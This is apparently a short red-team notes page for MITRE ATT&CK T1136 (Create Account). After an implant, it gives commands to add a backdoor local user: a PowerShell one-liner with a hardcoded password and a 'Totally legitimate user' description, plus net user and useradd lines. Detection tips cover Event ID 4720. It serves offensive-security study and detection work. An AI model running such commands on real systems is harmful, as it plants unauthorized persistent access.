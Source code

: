 # [Create account](https://attack.mitre.org/techniques/T1136/)

## **Exploit syntax:**

For execution, refrence the following menu item:
* [Account Manipulation](Account_manipulation.md)
---

1. Obtain implant into system
2. If unknown, determine the OS of the system
3. Based on the OS, execute the proper syntax below:

### Powershell via sharpps (if installed on local system):
```powershell
sharpps $cred=ConvertTo-SecureString -AsPlainText -Force -String "N33zDutz123"; New-LocalUser -Name "Bobbyjim" -Password $cred -Description "Totally legitimate user."
``` 
    

### Windows:
```bat
invoke-command net user /add [username] [password]
```
### Linux:
```bash
useradd [OPTIONS] USERNAME
```
>***NOTE***: must be root or a user with sudo privileges 

---
## **Detection Techniques:**
* Investigate account creation via the net.exe process. Looking for Event ID 4720 if an account is created on a windows system.
* event.code:4720
* Investigate /var/log/secure file for attempts to create users

---
## **Resources:**
